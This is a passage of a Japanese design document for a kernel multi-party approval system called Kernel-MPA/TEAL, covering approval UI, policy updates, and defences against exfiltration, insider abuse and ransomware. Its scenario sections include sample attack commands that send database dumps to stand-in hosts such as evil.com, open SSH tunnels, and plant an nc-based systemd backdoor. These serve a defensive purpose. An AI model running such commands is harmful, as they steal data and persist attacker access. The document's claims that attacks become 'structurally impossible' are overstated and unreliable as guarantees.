## **16.8.1 2 ノード構成（Active/Standby）**

* Active が承認処理
* Standby がポリシー・ログを同期
* teald は LKM から見て透明（UDS 同一パス）

## **16.8.2 3 ノード MPA 分散**

承認処理自体が MPA を伴うため、
**各 teald ノードが「部分的承認」を集める**ことも可能。

例：

* Node1：ops 承認
* Node2：security 承認
* Node3：owner 承認

3 ノードの MPA 証跡を統合し、LKM に最終承認を返す。

---

# **16.9 まとめ**

`teald` は単なる承認サーバではなく、

* 高速 IPC
* 状態管理
* ポリシー評価
* MPA 判定
* 分散承認
* 証跡の永続化
* 高可用性
* セキュリティ監査

を一体化して動作する **「OS の最後の裁定者」** として機能する。

Kernel-MPA / TEAL アーキテクチャの中で最も高度なコンポーネントであり、
攻撃チェーンの実行前防御の中心となる。

---

# **17. 承認 UI/UX**

Kernel-MPA / TEAL の承認は単なる「ボタン押し」ではなく、
**セキュリティ強度・可用性・運用性を両立するための人間インターフェース**である。

本章では、承認者・オペレーター・管理者など異なる立場のユーザーが
どのように TEAL の承認フローに関わるかを、UI/UX の観点から解説する。

---

## **17.1 UI/UX 設計哲学**

承認 UI/UX は以下の 5 原則に基づく：

1. **絶対に間違えない（Zero Mis-Approval）**

   * 誤承認・誤却下を防ぐレイアウト・警告・ヒューマンファクター設計。

2. **できるだけ速い（Rapid Approval）**

   * わずか数秒で承認できる体験。
   * FIDO2＋Push認証の即時性。

3. **文脈が明確（Context-Rich Approval）**

   * 「誰が」「どこで」「何を」「何のために」
     が一目でわかる、説明義務を伴う承認画面。

4. **多様な環境に対応（Multi-Device / Multi-Context）**

   * PC、スマホ、CLI、Slack/Teams 連携、電子メール。
   * 災害時や深夜対応でも機能する。

5. **承認の証跡が保証される（Cryptographically Verifiable Trail）**

   * BLS 署名による改ざん不可能な承認記録。

---

## **17.2 承認者のワークフロー**

Kernel-MPA/TEAL が「承認が必要」と判断した際、
承認者は以下のフローで操作する：

```
[1] 通知受信（Push/CLI/Web/Slack）
[2] 操作内容確認（read? write? delete? exec?）
[3] 差分確認（何が変わるのか）
[4] リスク判断
[5] FIDO2 認証
[6] 承認 or 却下（理由付き）
[7] teald が BLS 署名を付加
[8] カーネルへトークン返却
```

---

# **17.3 Web UI（統合管理ポータル）**

Web UI は最も情報量を提供できる承認インターフェースで、
以下のコンセプトで構成される。

---

## **17.3.1 ダッシュボード**

* 承認待ちリクエスト一覧（Pending）
* 承認中（MPA 途中）のリクエスト一覧
* 却下済み、完了済み履歴
* 承認 SLA（平均承認時間）
* 担当ロール別の承認率

```
[Pending Requests]
  - Exec: /usr/bin/dd  by uid=1001 (prod-db01)
  - FileRead: /var/secure/dbdump.enc
  - NetSend: dst=203.0.113.11:443
```

---

## **17.3.2 承認詳細画面**

承認者が最も重視する画面。
情報過多にならないように **3段階の情報レイヤ** を用いる。

### **レイヤ1：重要項目（すぐ承認判断できる）**

* 実行者
* 操作種別（exec/read/write/delete/send）
* 対象（ファイル／コマンド／宛先 IP）
* 環境（dev/stg/prod）
* 危険度スコア（Low/Medium/High/Critical）
* MPA 要件（2-of-5 のうち現在 1 承認済）

### **レイヤ2：行動ログ**

* 実行者の直前 5 分間の行動
* sudo history
* セッションログ
* 過去の似た操作のログ

### **レイヤ3：高度な調査情報（必要に応じて開く）**

* ハッシュ値
* ソースホストの TPM PCR 状態
* SELinux/LSM ラベル
* 使用中の tty / shell
* プロセスツリー

---

## **17.3.3 ボタン設計**

### **承認ボタン（Approve）**

* 緑色
* 右側
* ショートカットキーあり
* 二段階確認（FIDO2 → 承認実行）

### **却下ボタン（Reject）**

* 赤色
* 右側に並列
* 却下理由の入力必須（短文で可）
* 即時でカーネルへ通知

---

## **17.3.4 画面モバイル化（スマホ UI）**

スマートフォン向け UI では：

* タップしやすいボタン配置
* 操作対象要素を最小 4 行で要約
* 完全レスポンシブ
* 通知をタップすると承認画面に直行

**「即時性」と「小画面でも誤操作を防ぐレイアウト」** を両立。

---

# **17.4 CLI （teal-approve / teal-reject / teal-status）**

CLI は運用チームから最も支持され、
以下の特徴を持つ：

---

## **17.4.1 基本操作**

```sh
teal-list
teal-approve --id <REQID> --note "Looks OK"
teal-reject  --id <REQID> --note "Risky operation"
teal-status  --id <REQID>
```

---

## **17.4.2 CLI の強み**

* SSH 経由で最低限の帯域でも動作
* サーバ室・災害時でも使用できる
* スクリプト化が可能（ただし承認は人間の FIDO2 認証が必須）

---

## **17.4.3 CLI の FIDO2 認証フロー**

CLI は FIDO2 トークンと連携できる：

```
$ teal-approve --id 123
Confirm on your security key...
[Touch your key]
Approved.
```

---

# **17.5 Slack / Teams / LINE WORKS 通知統合**

承認要求は、以下の形式で即時通知される：

```
[TEAL] Approval Required

Operation: FileRead
User: uid1001
Target: /var/secure/dbdump.enc
Host: prod-db01
Reason: DB backup requested

Approve: https://teal.company.com/approve?id=xxxx
Reject:  https://teal.company.com/reject?id=xxxx
```

承認ボタンを押しても **最終承認（BLS署名）は Web UI / CLI 側で実施**
→ **チャットツールの誤タップで承認されることはない**（安全性確保）。

---

# **17.6 承認プロセスの“人間工学（Human Factors）”**

運用の現場では、
「疲労」「負荷」「画面レイアウト」「色」「配置」
が誤承認に直結する。

TEAL の UI では次の人間工学原則を採用：

* 危険度が高い操作ほど赤〜橙の警告色
* 相互に似たボタンを隣に配置しない
* 「Yes/No」を押し間違えやすいので用いない
* 却下理由入力を促す（心理的チェックポイント）
* 画面右上にプロセスツリー
* 操作内容はアイコン化（実行/読み出し/送信/削除）
* 読み上げ対応（アクセシビリティ）

---

# **17.7 多人数承認（MPA）時の UI**

MPA Level 2〜3 の場合：

* 誰が承認済か
* 誰が未承認か
* ロールは揃っているか
* required: 2-of-5 のような Threshold 表記
* TTL（承認有効期限）のカウントダウン
* 他の承認者のコメント

が UI に表示される。

例：

```
MPA Status: 1/3 approved (roles: ops ✔, security ✘, data_owner ✘)
TTL: 08:21 remaining
```

---

# **17.8 緊急用「ブレイクグラス」UI**

緊急時には、
**「通常の MPA より緩和された承認フロー」**に切り替えることがある。

ただし UI は以下の性質を持つ：

* 画面が真っ赤（緊急性の強調）
* 多重確認（3 回クリック）
* 追加の FIDO2 署名
* 緊急用ワンタイムコードの入力
* 事後レビュー義務

```
[WARNING] Break-Glass Mode Activation
This action bypasses normal MPA requirements.
All actions will be fully logged and audited.
```

---

# **17.9 承認者のミスを防止する仕組み（Anti-Misapproval）**

TEAL の承認 UI/UX には「ミス承認」防止の仕組みが多数ある：

* 脅威レベルが高い操作は「承認ボタン」が右下→左下に移動
* 削除操作のときは「承認 → 確認 → FIDO2 → 最終確認」
* 誤承認が疑われた時の「Undo（無効化）」が可能（※ MPA 必須）
* 難解な diff をハイライトして提示（例えば設定ファイル差分）

---

# **17.10 ログイン経路とコンテキスト**

承認 UI は以下の情報を強調表示する：

* 承認者のFIDO2認証状態
* 承認者の現在位置（IP/Geo）
* 操作要求を発生させたログイン経路

  * SSH
  * Jump Host
  * GUI console
  * API / systemd
* 操作者の MFA 状態（Passkey / FIDO2）

これにより、

> **「どんな状況下の実行なのか」**

を瞬時に判断できる。

---

# **17.11 承認 UX の KPI（運用指標）**

TEAL は次の KPI を提供する：

* 平均承認時間（Avg Approval Time）
* MPA 達成率
* 却下率
* 誤承認数（0 が理想）
* 担当別承認負荷
* 時間外承認の割合

これにより、組織の運用負荷を定量的に改善できる。

---

# **17.12 まとめ**

承認 UI/UX は Kernel-MPA / TEAL の“人が関わる中核”として設計されている。

**特徴まとめ：**

* セキュリティ強度と可用性の両立
* 多人数承認（MPA）を自然に行える UX
* スマホ・CLI・Web の多様な環境
* 誤操作を根絶する人間工学ベースの UI
* 全行動は BLS 署名付きで永続化
* 緊急モードと通常モードの明確な分離
* 承認理由・ログ・差分提示による透明性の向上

---

# **18. ポリシー更新手順**

Kernel-MPA / TEAL のポリシーは
**「OS の実行・読み出し・送信を制御する最重要資産」**であり、
誤った変更は重大インシデントにつながる。

したがってポリシー更新は、
**セキュア・可監査・WORM（改ざん不可）・MPA（多人数承認）** を前提とした
厳密なオペレーションとして定義する必要がある。

本章では、**/etc/teal.d** 配下のポリシーファイルを更新するための
フルライフサイクル手順を解説する。

---

# **18.1 原則（ポリシー更新に求められる基準）**

ポリシー更新には、次の 5 原則が必須である：

1. **人間承認（MPA）による正当性の確保**
2. **WORM 化された領域に保存して改ざん不可を保証**
3. **差分を明確化し、誤変更を防ぐ**
4. **事前検証（Dry Run/Test）を自動化**
5. **更新後の自動監査とハッシュ検証**

ポイントは：

> **「ポリシー自体が攻撃対象となるので、
> ポリシー変更も MPA 保護対象でなければならない」**

という点である。

---

# **18.2 ポリシーファイル構造（/etc/teal.d）**

```
/etc/teal.d/
   10-base.yaml
   20-files.yaml
   30-network.yaml
   40-mpa-rules.yaml
   ...
   hash.txt          ← 全ファイル統合ハッシュ
   signature.txt     ← BLS署名
```

* **分割管理**：用途別に小さなファイル化
* **WORM 保存**：更新後 hash/signature を保存
* **読み込み順序**：Lexical Order（10 → 20 → 30…）

---

# **18.3 ポリシー更新ワークフロー（全体図）**

文章図：

```
[Step 1] 変更草案作成（Draft）
[Step 2] ローカルテスト（Dry Run）
[Step 3] MPAによる承認要求（2〜3名以上）
[Step 4] WORM領域にコミット（hash + signature）
[Step 5] teald が自動リロード（ハッシュ検証）
[Step 6] 更新後自動監査
```

---

# **18.4 Step 1：変更草案（Draft）の作成**

### **18.4.1 変更内容の分類**

ポリシー変更は次の 3 種類：

* **安全変更（Safe Change）**

  * 読み取り対象の追加
  * 低危険操作を allow → deny

* **準危険変更（Moderate Change）**

  * MPA Level 変更（1 → 2）

* **高危険変更（Critical Change）**

  * need_approval: false を追加する
  * 破壊操作を allow にする
  * TEAL-NET を緩和する

Critical Change は必ず **MPA Level 3〜4** が必要。

---

### **18.4.2 差分形式で草案を提出**

例：差分（Patch 形式）

```diff
--- a/20-files.yaml
+++ b/20-files.yaml
@@ -10,6 +10,10 @@ rules:
     command: "/usr/bin/dd"
     need_approval: true
+  - name: "db-backup-read"
+    path: "/var/secure/dbbackup.enc"
+    need_approval: true
+    mpa_level: 2
```

---

# **18.5 Step 2：ローカルテスト（Dry Run）**

TEAL にはポリシーの **Dry Run** 機能がある：

```sh
teal-policy-test --policy ./teal.d
```

検証項目：

* YAML schema validation
* 未使用 rule の検出
* 既存ルールとの競合
* MPA 未定義ルールの警告
* WORM ハッシュ計算の事前確認

---

# **18.6 Step 3：MPA（多人数承認）による更新承認**

### **18.6.1 ポリシー更新そのものも MPA 必須**

非常に重要な点：

**ポリシー更新は、通常の実行承認よりも厳しい MPA を課す。**

例：

```
threshold: 3-of-5
roles_required:
  - ops_admin
  - security_admin
  - data_owner
```

### **18.6.2 承認 UI**

変更草案の diff が自動表示される：

```
[Policy Update Request]
File: /etc/teal.d/20-files.yaml

Changes:
+ rule: db-backup-read
  path: /var/secure/dbbackup.enc
  need_approval: true
  mpa_level: 2
```

承認者は：

* diff を確認
* 影響範囲を確認
* FIDO2 認証
* 承認 or 却下

---

# **18.7 Step 4：WORM領域へのコミット**

承認後、teald の `policy-commit` 機能を使う：

```
teal-policy-commit --source ./teal.d
```

このとき：

1. 全ファイルを読み込み
2. 結合した YAML 全体のハッシュを計算（sha256）
3. 承認者の BLS 秘密鍵で署名
4. `/etc/teal.d/hash.txt` `/etc/teal.d/signature.txt` に保存
5. WORM 属性を付与（chattr +i、Immutable FS、dm-verity など）

例：

```
hash: cbd2feffcf0821d367f6208a2f89edcc83ae5093e25...
signature: bls-sign(aee819...)
```

---

# **18.8 Step 5：teald による自動リロード**

teald は次のイベントで自動更新する：

* ポリシーファイルの更新
* hash/signature の一致確認
* YAML の構文検証
* ポリシーキャッシュの再生成

ログ例：

```
[teald] Policy hash OK.
[teald] Signature verified (BLS).
[teald] Loaded 31 rules from /etc/teal.d.
```

もし異常があれば：

```
[ERROR] Policy verification failed. Reverting to previous version.
```

※ポリシー誤更新によるサービス停止を防止する安全機構。

---

# **18.9 Step 6：更新後の自動監査**

更新後、次の項目が自動記録される：

| 項目      | 内容                 |
| ------- | ------------------ |
| 誰が承認したか | BLS署名付き            |
| ロール     | ops/security/owner |
| 承認者人数   | threshold達成の証拠     |
| 更新差分    | diff が JSON として保存  |
| 更新理由    | 人が入力               |
| 影響範囲の推定 | 影響する rule の一覧化     |

監査ログ例：

```json
{
  "action": "policy_update",
  "approvals": [
    {"user": "alice", "role": "ops", "signature": "..."},
    {"user": "bob",  "role": "security", "signature": "..."},
    {"user": "carol", "role": "data_owner", "signature": "..."}
  ],
  "policy_hash": "...",
  "diff": "...",
  "timestamp": "2025-12-01T12:11:00Z"
}
```

---

# **18.10 ロールバック手順（安全策）**

誤更新時には：

```
teal-policy-rollback --to <version>
```

teald は：

* 過去の hash/signature
* 過去の rule セット

を保持している。

rollback も **MPA Level 3〜4** を要求する。

---

# **18.11 緊急時の「ブレイクグラス・ポリシー更新」**

通常の MPA では間に合わない緊急メンテのために、
次のような“非常用更新”を許可できる。

* 複数の FIDO2 認証
* 緊急ワンタイムコード
* 事後 24 時間以内の監査義務
* 変更は必ず TTL（例：30 分）で期限切れする

例：

```
mpa_emergency:
  threshold: 1
  ttl: 1800
```

この緩和更新もログ・署名はすべて残る。

---

# **18.12 よくある誤り（Anti-Patterns）**

ポリシー管理で最も危険な誤りは：

1. **need_approval: false の誤追加**
2. **mpa_level の緩和を「暫定」で放置**
3. **ポリシーファイルを 1 つに巨大化**
4. **WORM を無効化（chattr -i）して放置**
5. **承認者のロール分離を無視**
6. **Dry Run を省略**

Kernel-MPA/TEAL はこれらを防ぐため、
強制チェックや UI 警告を備える。

---

# **18.13 ポリシー更新と攻撃者モデル**

攻撃者がシステムに侵入しても：

* WORM 領域に書けない
* BLS 署名がない
* MPA threshold が満たせない
  → 結果として **ポリシー改ざん自体が防御上、実質的な抜け道にならない**

つまり：

> **攻撃者が root を取っても
> ポリシーを無力化できない構造になっている。**

---

# **18.14 まとめ**

ポリシー更新手順は、
Kernel-MPA/TEAL システムの安全性を保証するための
必須プロセスである。

**重要ポイント：**

* ポリシー更新は「最重要操作」であるため
  → **最も厳しい MPA（Level 3〜4）**
* WORM 化で改ざん不可性
* BLS 署名で承認の真正性
* Dry Run で誤更新防止
* 自動監査・自動ロールバック

これにより、誤更新や内部不正が原因の
運用事故を根本的に防ぐことができる。

---

# **19. Use Case：データ搾取対策**

データ搾取（Data Exfiltration）は現代の攻撃の中心であり、
“ランサムウェアの前段階”として行われることがほぼ標準化している。

TEAL / Kernel-MPA / TEAL-NET の組み合わせは
**データ搾取チェーン（read → decrypt → package → send）を全段で破断する
唯一の OS 実行前防御アーキテクチャ**である。

本章では、その技術的・実務的効果をユースケースとして解説する。

---

# **19.1 データ搾取攻撃とは**

今の攻撃者が狙うのは「侵入」ではなく **“データの持ち出し”** である。
2024〜2025 の実例では、ほぼ全ての攻撃に以下の要素がある：

1. **ファイル読み出し（read）**
2. **暗号鍵・資格情報の読み出し（read）**
3. **機密データの復号 & 圧縮**
4. **C2 への送信と隠蔽（send）**

EDR・SASE・IAM では、**step 1 と 2（read）**を止めることはできない。

Kernel-MPA/TEAL は、この「最も止めづらい部分」を OS レベルで停止する。

---

# **19.2 データ搾取チェーンと STOP バリアの対応表**

攻撃者の行動を分解すると次の通り：

| フェーズ            | 攻撃内容                   | Kernel-MPA/TEAL の対応   |
| --------------- | ---------------------- | --------------------- |
| **① read**      | 機密ファイル / DB dump の読み出し | **read STOP（MPA 必須）** |
| **② read(key)** | 暗号鍵・認証情報の読み取り          | **キー読み出しも STOP**      |
| **③ decrypt**   | データ復号（鍵が必要）            | **鍵が読めないため不可能**       |
| **④ package**   | 圧縮／暗号化                 | **元データがないので不可**       |
| **⑤ send**      | 外部送信                   | **TEAL-NET が完全阻止**    |

結果として：

> **データ搾取攻撃は、どの段階かで実行が阻止される
> （成功確率を実質的に排除（Virtually Eliminated））**

---

# **19.3 データ搾取を「構造的に不可能」にする 3 つの仕組み**

## **19.3.1 read() 自体に STOP バリアを入れる（最強の防御）**

Kernel-MPA の LKM/LSM が read をフックし、

* ファイル種別
* パス
* プロセス
* UID/GID
* ログイン経路
* セッション情報

をもとに許可判定する。

例：機密 DB バックアップ

```yaml
rules:
  - name: "db-backup"
    path: "/var/secure/dbbackup.enc"
    need_approval: true
    mpa_level: 2
```

このため、攻撃者視点では：

* root でも読めない
* LD_PRELOAD での迂回不可
* eBPF / ptrace / /proc/mem も遮断
* 暗号鍵も読めない
  → 復号もできない

read 防御は、SASE/EDR では原理的にできない。
**Kernel-MPA の最大の価値は “読めなくなる” 点にある。**

---

## **19.3.2 復号（decrypt）が成立しない構造**

データ搾取のほぼ全ては「復号 → 盗む」を含む。

* “鍵ファイルを読んで復号”
* “プロセスメモリの鍵を読む”

などが一般的だが、

> **鍵の read を完全に STOP できるので復号は構造的に不可能**

攻撃は **① の時点で必敗**になる。

例：

```yaml
path: "/etc/ssl/private/*"
need_approval: true
mpa_level: 3
```

---

## **19.3.3 send/connect を TEAL-NET が全面遮断**

OS から外部へ送る動作は：

* connect()
* sendmsg()
* ssh/scp
* reverse shell
* HTTPS beacon
* Socks5
* curl/wget

いずれも **ホワイトリスト以外すべて拒否**される。

例：

```yaml
net:
  allow:
    - dst: "10.0.0.10:443"
      process: "/usr/bin/teal_controller"
```

攻撃ツールが、

* curl
* scp
* ssh
* python3 -c "socket..."
* ncat
* wget

など何を使っても送れない。

---

# **19.4 典型的攻撃シナリオでの防御例**

## **19.4.1 DB dump を盗む攻撃**

攻撃者の意図：

```
mysqldump > dump.sql
gzip dump.sql
curl -T dump.gz http://evil.com
```

**結果：**

| ステップ       | 状況   | 結果             |
| ---------- | ---- | -------------- |
| read(dump) | STOP | dump.sql が読めない |
| read(key)  | STOP | 復号できない         |
| curl       | STOP | 接続不可           |
| gzip, rm   | STOP | 書き込み系も MPA     |

事実上、**1ミリも進まない**。

---

## **19.4.2 SSH トンネル経由の stealth exfiltration**

攻撃者：

```
ssh -R 8080:localhost:3306 attacker.com
```

TEAL-NET:

* ssh プロセスの outbound が deny
* ポート転送も拒否
* reverse shell も無効

→ **横展開と送信が構造的に不可能**

---

## **19.4.3 メモリから資格情報を盗む攻撃（LSASS系のLinux版）**

攻撃者：

```
read /proc/<pid>/mem
ptrace attach
LD_PRELOAD injection
```

Kernel-MPA:

* /proc/pid/mem → read STOP
* ptrace attach → フックして deny
* LD_PRELOAD → execve フックで除外

**資格情報窃取の入口がすべて閉じる。**

---

# **19.5 実際のポリシー構成例（データ搾取対応）**

## **19.5.1 データ読み出しの MPA 指定**

```yaml
rules:
  - name: "personal-data"
    path: "/opt/data/personal/*"
    need_approval: true
    mpa_level: 3
    roles_required:
      - ops_admin
      - data_owner
```

## **19.5.2 DB dump に対する多段ポリシー**

```yaml
rules:
  - name: "db-backup-encrypted"
    path: "/var/secure/dbbackup.enc"
    need_approval: true
    mpa_level: 2

  - name: "db-key"
    path: "/var/secure/dbkey"
    need_approval: true
    mpa_level: 3
```

→ dump(key) が読めないため復号不可。

---

## **19.5.3 TEAL-NET の outbound 制限**

```yaml
net:
  allow:
    - process: "/usr/bin/teal_controller"
      dst: "10.0.0.10:443"
  default: deny
```

全送信がこの 1 行で遮断される。

---

# **19.6 組織内データ搾取（内部不正）にも効果絶大**

内部不正の典型として、

```
1. root が DB の dump を読み出し  
2. 暗号化して USB や外部へ送信  
```

があるが、本提案では：

* root でも read STOP
* decrypt STOP（鍵読めない）
* send STOP
* USB 送信も TEAL-NET でブロック
* ポリシー更新は WORM で改ざん不可

**内部不正を構造的に不可能化**できる。

---

# **19.7 結果：データ搾取は“攻撃成立の前提条件を欠くため、実行不能（Inexecutable）”となる**

Kernel-MPA/TEAL があれば、攻撃者は：

* 侵入しても
* 権限昇格しても
* root を取っても

**“何も盗めない・送れない”**

という状態になる。

これは既存の Linux セキュリティモデルでは不可能だった成果である。

---

# **19.8 まとめ**

データ搾取対策として Kernel-MPA/TEAL/TEAL-NET を採用した場合：

### **防御ポイント**

* read STOP
* decrypt 不可
* send 不可
* exfiltration 不可
* lateral movement 不可
* ポリシー改ざん不可

### **結果**

* データ搾取は**構造的に成立不能**
* ランサムウェアの 1 段目（情報盗難）が無効化
* 内部不正も壊滅
* “盗まれる前提の世界”が終わる

---

# **20. Use Case：内部不正防止**

内部不正は、外部攻撃者よりも深刻で、検知されにくく、
クラウド事故・大規模障害・データ漏えいの最大要因となっている。

2025 年時点で報告されるインシデントの多くが
**「内部者の不適切な操作」**や
**「攻撃者が内部権限を奪取した結果」**
として発生している。

Kernel-MPA / TEAL は
**「内部不正による重大操作を OS レベルで原理的に不可能にする」**
ことを目的として設計されている。

---

# **20.1 内部不正とは何か（攻撃モデルの整理）**

内部不正には 3 種類がある：

---

## **(A) 悪意ある内部者（Malicious Insider）**

* データを盗む
* データを削除する
* システムを破壊する
* 長期的バックドアを残す

これは攻撃者より危険で、**root 権限を合法的に持つ点**が最大の脅威。

---

## **(B) 過失・誤操作（Accidental Insider Error）**

* 誤って rm -rf
* 誤スクリプト投入
* 間違った本番環境操作
* 本番 DB を誤削除

実際の事故の大多数はこのカテゴリである。

---

## **(C) 外部攻撃者が内部権限を奪取（Compromised Insider）**

攻撃者が以下を奪取する：

* VPN / IAM / SSO アカウント
* SSH秘密鍵
* rootパスワード
* Multi-Factor token（盗難・push疲れ攻撃）

これも結果的には「内部者として操作できる」ため、内部不正扱いとなる。

---

# **20.2 内部不正防止の最重要ポイント**

内部不正の 99% は以下の 3 攻撃で分類される：

1. **クリティカルデータの読み出し**
2. **クリティカル資産の破壊（delete/truncate/write/exec）**
3. **外部送信（exfiltration）**

Kernel-MPA / TEAL はこれらのすべてに **STOP バリア**を挿入することで
根本的に操作をブロックする。

---

# **20.3 Kernel-MPA/TEAL が内部不正に対して圧倒的に強い理由**

内部不正を物理的に止めるには、
「root でも一人では攻撃者が目的達成に必要な操作を実行できない」構造が必要。

Kernel-MPA/TEAL はこれを OS によって実装する。

---

## **① root 単独ではクリティカル操作が一切できない**

例：

* DB の読み出し
* ファイル削除
* プロセス停止
* 設定変更
* 暗号鍵読み出し
* posix capabilities の変更
* systemd のユニット更新
* WORM file の変更

これらはすべて：

```
root → Kernel-MPA → teald → 承認者
```

を通過しなければならない。

**root が単独で破壊行為を行うことは構造的に不可能。**

---

## **② 「ポリシー改ざん」すら不可能（WORM + BLS）**

root は WORM 領域を書けないため：

* policy.yaml
* /etc/teal.d
* hash/signature ファイル

に対し root でも変更不可。

攻撃者が root を奪取しても：

> **ポリシーを改ざんして逃げることができない。**

これが TEAL の最大の強みである。

---

## **③ read / exec / send すべてに STOP バリア**

内部不正に共通するパターン：

```
read → decrypt → send / destroy
```

Kernel-MPA は：

* read STOP
* decrypt（鍵読み出し）STOP
* write/delete STOP
* send STOP（TEAL-NET）

すべてに STOP バリアを挿入し、
**破壊・搾取を根本的に阻止**する。

---

## **④ 認証情報流出時にも OS 側が守ってくれる**

内部不正で最も怖いのは：

> 「攻撃者が内部者の認証情報を奪取し“内部のふり”をする」

この攻撃も OS 側で阻止可能：

* root 権限を奪取しても、承認のない実行は不可
* read も write も send も不可
* policy も改ざん不能

**認証情報が盗まれても攻撃が成立しない**。

---

# **20.4 具体的シナリオ：内部不正が TEAL によって止まる例**

---

## **事例①：DB エンジニアが顧客データをコピー**

悪意ある内部者の典型例。

### 内部者の行動：

```
mysqldump > dump.sql
scp dump.sql attacker-server
```

### TEAL の防御：

| 操作          | 結果   | 理由                   |
| ----------- | ---- | -------------------- |
| dump の read | STOP | 機密ファイル MPA 要求        |
| scp         | STOP | TEAL-NET outbound 制御 |
| 鍵読み出し       | STOP | キーは WORM/MRA         |

**1つも成功しない。**

---

## **事例②：root が本番設定を誤って削除（過失）**

```
rm -rf /etc/prod-config
```

### Kernel-MPA：

* unlink() → MPA 必須
* 誤操作自体が構造的に困難である

運用保護としても強力。

---

## **事例③：攻撃者が内部者の SSH 鍵を盗んで侵入**

攻撃者の行動：

```
ssh prod-db01
cat /var/secure/personal.csv
curl http://evil.com/upload
```

TEAL：

* read STOP
* decrypt STOP
* send STOP
* lateral movement STOP
* policy 改ざん不可能

内部のアカウントを奪われても攻撃が成立しない。

---

## **事例④：内部者が SSH で Shell を取得して外部へ流す**

```
tar cz /var/log | ssh attacker@evil.net
```

TEAL：

* read → STOP（機密ファイル）
* ssh outbound → STOP（TEAL-NET）

**Shell を取られても送れない。**

---

## **事例⑤：内部者が長期バックドアを設置**

```
echo "nc -l" > /etc/systemd/system/backdoor.service
systemctl enable backdoor.service
```

TEAL：

* write → MPA 必須
* systemd 操作 → MPA 必須
* 永続化 STOP

バックドアの設置が不可能。

---

# **20.5 “内部不正を起こそうという意図”自体を削ぐ効果**

内部不正が成功する条件：

1. 1 人で操作できる
2. バレない
3. すぐ実行できる
4. 履歴が残らない
5. 取り返しがつかない操作ができる

Kernel-MPA/TEAL は：

* 1人では操作不可能（MPA）
* 操作は BLS 署名付きで永続化（証跡完璧）
* 内部者でも send できない
* WORM でポリシー改ざん不可
* OS が STOP バリアを提供（実行前阻止）

結果として：

> **内部不正を試みるメリットがなくなる
> （抑止効果が極めて強い）**

---

# **20.6 実運用で推奨される内部不正防止ポリシー例**

---

## **20.6.1 本番データ（顧客情報）の読み出し**

```yaml
rules:
  - name: "prod-personal-data"
    path: "/opt/prod/data/*"
    need_approval: true
    mpa_level: 3
    roles_required:
      - ops_admin
      - security_admin
      - data_owner
```

---

## **20.6.2 スキーマ変更・データ削除**

```yaml
rules:
  - name: "delete-protection"
    command: "/usr/bin/mysql"
    args: ["DROP", "DELETE"]
    need_approval: true
    mpa_level: 3
```

---

## **20.6.3 外部送信の全面否定**

```yaml
net:
  default: deny
  allow:
    - process: "/usr/bin/teal_controller"
      dst: "10.0.0.10:443"
```

---

# **20.7 内部不正のリスク低減モデル（数理的評価）**

内部者が悪意を持つ確率を **p** とすると、
MPA Level n の場合の内部不正成功確率は **pⁿ**（近似）となる。

例：

* p = 1%（100人に1人の悪意）
* n = 3（MPA Level 3）
* p³ = 0.000001 = 0.0001%（100万件に 1）

**実務上のリスクは 無視できるレベルまで低減される（Negligible）。**

ロール分離や時間制約を加えると、
確率はさらに指数関数的に下がる。

---

# **20.8 まとめ：内部不正を OS レベルで“システム設計レベルで 実行を阻止”する**

Kernel-MPA / TEAL は内部不正に対して以下を実現する：

* **root 単独操作禁止**
* **read STOP**
* **write/delete STOP**
* **send STOP（TEAL-NET）**
* **policy 改ざん不可能（WORM）**
* **MPA による多人数承認（n-of-m + role separation）**
* **証跡は BLS 署名付きで改ざん不可**

その結果、内部者は：

* 読めない
* 送れない
* 消せない
* 永続化できない
* バックドアを置けない
* 証跡を消せない
* 協力者がいないと攻撃者が目的達成に必要な操作を実行できない

内部不正の **実行も、隠蔽も、成立も不可能**となる。

---

# **21. Use Case：ランサムウェア防止**

ランサムウェアは 2024–2025 年で最も深刻な攻撃であり、
侵入後の行動はほぼ標準化された**決まった段階的パターン**に従う。

Kernel-MPA / TEAL / TEAL-NET が提供する
**「実行前防御（Pre-Execution Security）」**は
ランサムウェア対策として極めて強力で、
攻撃チェーンのすべての段階を OS レベルで断絶する。

---

# **21.1 ランサムウェア攻撃チェーン（標準化パターン）**

ランサムウェアの多くは次の 6 フェーズを踏む：

| フェーズ          | 内容                             |
| ------------- | ------------------------------ |
| ① 初期侵入        | VPN脆弱性、フィッシング、悪性添付など           |
| ② 内部移動（横展開）   | SSH、RDP、AD 連携、credential steal |
| ③ 権限昇格        | root/admin 取得・脆弱性悪用            |
| ④ データ搾取（情報盗難） | read → decrypt → send（前段攻撃）    |
| ⑤ 破壊（暗号化）     | OS ファイル改変、暗号化、削除               |
| ⑥ 身代金交渉・継続侵害  | バックドア維持・外部送信                   |

Kernel-MPA/TEAL は **④と⑤（核心部分）に STOP バリア**を入れるため、
攻撃が **フェーズ 4 に到達した瞬間に破綻**する。

---

# **21.2 TEAL によるランサムウェア阻止ポイント（まとめ）**

| 攻撃フェーズ | ランサムウェアの行動              | Kernel-MPA/TEAL の阻止方法                    |
| ------ | ----------------------- | ---------------------------------------- |
| ① 初期侵入 | 侵害の入口獲得                 | 他対策と併用（EDR, SASE）                        |
| ② 内部移動 | ssh/scp、横展開             | **TEAL-NET outbound STOP**               |
| ③ 権限昇格 | root 化                  | root でも **STOPバリア突破不可**                  |
| ④ 情報盗難 | read → decrypt → send   | **read STOP / decrypt STOP / send STOP** |
| ⑤ 暗号化  | write / unlink / rename | **write STOP（MPA）**                      |
| ⑥ 継続侵害 | 外部送信、バックドア              | send STOP／永続化 STOP                       |

**最大のポイントは：
ランサムウェアは「読めなければ暗号化もできない」。**

---

# **21.3 なぜ Kernel-MPA はランサムウェアに強いのか？（技術的理由）**

## **理由①：write/delete（暗号化）の前に STOP バリア**

ランサムウェアの本体である「暗号化処理」は、
実際には OS 側から見ると *write 系 syscall の大量連続実行* である。

例：

* open
* write
* rename
* unlink
* chmod
* chown

Kernel-MPA はこれをすべて **実行前にフックし、承認必須にできる**。

例：critical ファイルの保護ポリシー

```yaml
rules:
  - name: "block-write-critical"
    path: "/var/important/*"
    need_approval: true
    mpa_level: 2
```

ランサムウェアは暗号化しようとしても、
**1 ファイル目の write で停止**する。

---

## **理由②：暗号化の前提となる「読み出し」がそもそもできない**

ランサムウェアが暗号化するには「対象ファイルを read する必要」がある。

Kernel-MPA により：

* ファイル読み出し(read)
* メモリ読み出し
* /proc/pid/mem
* 暗号鍵読み出し

が **STOP** されるため、暗号化は実行不能。

---

## **理由③：復号キーも read STOP により取得不能**

ほぼすべてのランサムウェアは

```
ファイルを読む → 復号キー読む → 暗号化 → 元ファイル削除
```

の順で動作する。

**鍵ファイル読み出し**も STOP の対象にできるため：

* ファイルを暗号化できない
